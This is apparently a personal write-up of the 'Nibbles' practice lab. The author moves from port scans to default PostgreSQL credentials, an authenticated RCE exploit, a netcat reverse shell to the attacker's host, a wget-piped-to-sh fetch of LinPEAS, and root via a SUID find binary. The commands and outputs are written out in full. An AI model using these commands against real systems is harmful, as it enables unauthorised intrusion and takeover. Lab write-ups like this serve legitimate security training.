

# Nibbles (rough notes)

Initial TCP port scan:

```
┌──(kali㉿kali)-[~/offsec/nibbles]
└─$ nmap -v -Pn -p- -T4 nibbles   
...

PORT     STATE  SERVICE
21/tcp   open   ftp
22/tcp   open   ssh
80/tcp   open   http
5437/tcp open   pmip6-data
```

Initial UDP port scan:

```
┌──(kali㉿kali)-[~/offsec/nibbles]
└─$ sudo nmap -v -Pn -sU -T4 --top-ports 100 nibbles
    ( ... came back with nothing ... )
```

Secondary TCP port scan with service version fingerprinting:

```
┌──(kali㉿kali)-[~/offsec/nibbles]
└─$ nmap -v -Pn -p 21,22,80,5437 -A nibbles
...

PORT     STATE  SERVICE      VERSION
21/tcp   open   ftp          vsftpd 3.0.3
22/tcp   open   ssh          OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 10:62:1f:f5:22:de:29:d4:24:96:a7:66:c3:64:b7:10 (RSA)
|   256 c9:15:ff:cd:f3:97:ec:39:13:16:48:38:c5:58:d7:5f (ECDSA)
|_  256 90:7c:a3:44:73:b4:b4:4c:e3:9c:71:d1:87:ba:ca:7b (ED25519)
80/tcp   open   http         Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-title: Enter a title, displayed at the top of the window.
5437/tcp open   postgresql   PostgreSQL DB 11.3 - 11.9
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=debian
| Subject Alternative Name: DNS:debian
| Issuer: commonName=debian
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-04-27T15:41:47
| Not valid after:  2030-04-25T15:41:47
| MD5:   b086:6d30:4913:684e:16c1:8348:fc76:fe43
|_SHA-1: cb30:5109:0fc1:14ab:0fb9:8e55:5874:4bb5:ba57:66af
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

So... things to do in order of what I think is more likely to be fruitful:

- Try anonymous access for the FTP sevice on port 21
- Enumerate paths on the HTTP server on port 80
- While the enumeration is ongoing, check out the HTTP server on port 80 in the browser
- Try anonymous / default credentials on the postgres server on port 5437
- Try brute forcing the password on the postgres server on port 5437

#### FTP (:21)

Try FTP as anonymous user

```
┌──(kali㉿kali)-[~/offsec/nibbles]
└─$ ftp anonymous@nibbles
Connected to nibbles.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
530 Login incorrect.
ftp: Login failed
```

I also try user `root` with passwords like "root", "toor", "password", and so on...

No luck.

#### HTTP (:80)

I kick off path enumeration on the root path.

And while that is ongoing I check out the server on the browser:



There is nothing in the source code that gives away what this is. Of the three links in the page: 

- "Web site" just points to `#`
- "another page" takes you to a portfolio site with "Lorem ipsum...." template... nothing in the source code either
- "Internet Cats" takes you to `/nightmare.jpg` which has a picture of an old browser with a lot of tabs

There is no `robots.txt`.

I look up the text in the page and I find its likely taken verbatim from [this dummies.com article](https://www.dummies.com/article/technology/programming-web-design/html/a-sample-web-page-in-html-189340/).

Path enumeration is done and still hasn't come up with anything.

```
┌──(kali㉿kali)-[~/offsec/nibbles]
└─$ gobuster dir -u http://nibbles/ -t 20 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt   
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://nibbles/
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/server-status        (Status: 403) [Size: 272]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```

I move on for now.

> Note: I later ran with `-x '.jpg,.html'` and found just the routes I had already discovered manually.

#### POSTGRESQL (:5437)

Default username is `postgres` and no password is required. So I check for such annymous access first:

```
┌──(kali㉿kali)-[~/offsec/nibbles]
└─$ psql --host nibbles --port 5437 --username postgres --no-password
psql: error: connection to server at "nibbles" (192.168.199.47), port 5437 failed: fe_sendauth: no password supplied
```

I try password `password` - no luck.

I try password `postgres` and we are in!

```
┌──(kali㉿kali)-[~/offsec/nibbles]
└─$ psql --host nibbles --port 5437 --username postgres 
Password for user postgres: 
psql (16.2 (Debian 16.2-1), server 11.7 (Debian 11.7-0+deb10u1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, compression: off)
Type "help" for help.

postgres=# 
```

Since we know we are looking for a way to get a shell (we aren't really interested in snooping in the database), and I already looked at the other services and found nothing... I go ahead and look up postgresql on exploit-db:

```
┌──(kali㉿kali)-[~/offsec/nibbles]
└─$ searchsploit postgresql    
------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                    |  Path
------------------------------------------------------------------ ---------------------------------
PnPSCADA v2.x - Unauthenticated PostgreSQL Injection              | hardware/webapps/51448.txt
PostgreSQL - 'bitsubstr' Buffer Overflow                          | linux/dos/33571.txt
PostgreSQL 6.3.2/6.5.3 - Cleartext Passwords                      | immunix/local/19875.txt
PostgreSQL 7.x - Multiple Vulnerabilities                         | linux/dos/25076.c
PostgreSQL 8.01 - Remote Reboot (Denial of Service)               | multiple/dos/946.c
PostgreSQL 8.2/8.3/8.4 - UDF for Command Execution                | linux/local/7855.txt
PostgreSQL 8.3.6 - Conversion Encoding Remote Denial of Service   | linux/dos/32849.txt
PostgreSQL 8.3.6 - Low Cost Function Information Disclosure       | multiple/local/32847.txt
PostgreSQL 8.4.1 - JOIN Hashtable Size Integer Overflow Denial of | multiple/dos/33729.txt
PostgreSQL 9.3 - COPY FROM PROGRAM Command Execution (Metasploit) | multiple/remote/46813.rb
PostgreSQL 9.3-11.7 - Remote Code Execution (RCE) (Authenticated) | multiple/remote/50847.py
PostgreSQL 9.4-0.5.3 - Privilege Escalation                       | linux/local/45184.sh
PostgreSQL 9.6.1 - Remote Code Execution (RCE) (Authenticated)    | multiple/remote/51247.py
------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

From our postgres client we know the postgres server version is 11.7 -- which seems to be vulnerable to the first RCE above... let's try it.

```
┌──(kali㉿kali)-[~/offsec/nibbles]
└─$ python 50847.py --ip 192.168.199.47 --port 5437 --user postgres --password postgres --command 'id'        

[+] Connecting to PostgreSQL Database on 192.168.199.47:5437
[+] Connection to Database established
[+] Checking PostgreSQL version
[+] PostgreSQL 11.7 is likely vulnerable
[+] Creating table _668c545f62ab8815c1afcbffebcd4eca
[+] Command executed

uid=106(postgres) gid=113(postgres) groups=113(postgres),112(ssl-cert)

[+] Deleting table _668c545f62ab8815c1afcbffebcd4eca
```

Success!

I'll use the exploit to set up a reverse shell... running the exploit for each command will become cumbersome very quickly.

I set up my listener:

```                                                                                                                                                                                    
┌──(kali㉿kali)-[~/offsec/nibbles]
└─$ nc -lnvp 80  
listening on [any] 80 ...
```

I run the exploit with my netcat reverse shell command

```
┌──(kali㉿kali)-[~/offsec/nibbles]
└─$ python 50847.py --ip 192.168.199.47 --port 5437 --user postgres --password postgres --command 'nc -c sh 192.168.45.172 80'

[+] Connecting to PostgreSQL Database on 192.168.199.47:5437
[+] Connection to Database established
[+] Checking PostgreSQL version
[+] PostgreSQL 11.7 is likely vulnerable
[+] Creating table _ea842afa79d2ddaf92923629fdd8db2d
   ( ... hangs ... )
```

And we have a shell!

```
┌──(kali㉿kali)-[~/offsec/nibbles]
└─$ nc -lnvp 80  
listening on [any] 80 ...
connect to [192.168.45.172] from (UNKNOWN) [192.168.199.47] 52690
whoami
postgres
```

We quickly find out first flag in user `wilson`'s home directory:

```
python -c 'import pty; pty.spawn("/bin/bash")'
postgres@nibbles:/var/lib/postgresql/11/main$ cd /home/      
cd /home/
postgres@nibbles:/home$ ls
ls
wilson
postgres@nibbles:/home$ cd wilson
cd wilson
postgres@nibbles:/home/wilson$ ls
ls
ftp  local.txt
postgres@nibbles:/home/wilson$ cat local.txt
cat local.txt
5eaf2c6065aa0e8a4934687cf151ece2
```

## Privilege Escalation

It's time for... you guessed it... LinPEAS!

Expect that nothing resolves on this box... so I download it to Kali and serve it over HTTP.

```
┌──(kali㉿kali)-[~/offsec/nibbles]
└─$ python -m http.server 5437
Serving HTTP on 0.0.0.0 port 5437 (http://0.0.0.0:5437/) ...
```

I download it on the victim host:

```
postgres@nibbles:/home/wilson$ wget -O- http://192.168.45.172:5437/linpeas.sh | sh
<wget -O- http://192.168.45.172:5437/linpeas.sh | sh
--2024-03-13 01:20:21--  http://192.168.45.172:5437/linpeas.sh
Connecting to 192.168.45.172:5437... connected.
HTTP request sent, awaiting response... 200 OK
```

and pretty quickly we get value!

```
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid
        (... other results ...)
-rwsr-xr-x 1 root root 309K Feb 16  2019 /usr/bin/find
        (... other results ...)
```

Looking up the [`find` binary in GTFOBins](https://gtfobins.github.io/gtfobins/find/) we learn that its pretty easy to get a privileged shell when `find` has SUID:

```
postgres@nibbles:/home/wilson$ find . -exec /bin/sh -p \; -quit
find . -exec /bin/sh -p \; -quit
# whoami
whoami
root
```

We go looking for our flag where we expect it:

```
# cd /root
cd /root
# cat proof.txt
cat proof.txt
588e339021456e249c0f5df4bfb88f20
```

We win!